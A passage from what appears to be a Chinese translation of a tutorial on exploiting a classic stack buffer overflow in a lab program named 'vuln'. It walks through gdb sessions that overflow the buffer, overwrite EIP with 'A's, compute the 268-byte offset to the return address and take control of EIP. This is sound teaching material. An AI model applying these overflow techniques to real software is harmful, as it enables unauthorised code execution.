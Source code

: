 堆栈布局：

![mainstacklayout](images/13/mainstacklayout.png)


当用户输入字符串大于256个字节时，溢出就会发生并覆盖了堆栈中存储的返回地址。这通过发送一系列A来测试它。

##### 测试步骤1：是否可以覆盖返回地址？

```Shell
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示指令指针寄存器（EIP）被AAAA覆盖，这样可以确定覆盖返回地址是可能的！

##### 测试步骤2：目的缓冲区的偏移量是多少？

这里让我们找出返回地址相对与目的缓冲区buf的偏移量。在反汇编并绘制了main的堆栈布局后，现在可以尝试找到偏移位置信息！

堆栈布局显示返回地址位于距目标缓冲区buf的偏移（0x10c）处。0x10c计算如下：

0x10c = 0x100 + 0x8 + 0x4

其中:
- 0x100 is ‘buf’ 大小
- 0x8 is 对齐空间    //这里有点不太明白为啥需要对齐
- 0x4 is 调用者的ebp

因此，用户输入的 "A" * 268 + "B" * 4，覆盖了buf，对齐空间和调用者的ebp覆盖为A并且返回地址变为BBBB。

```Shell
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```
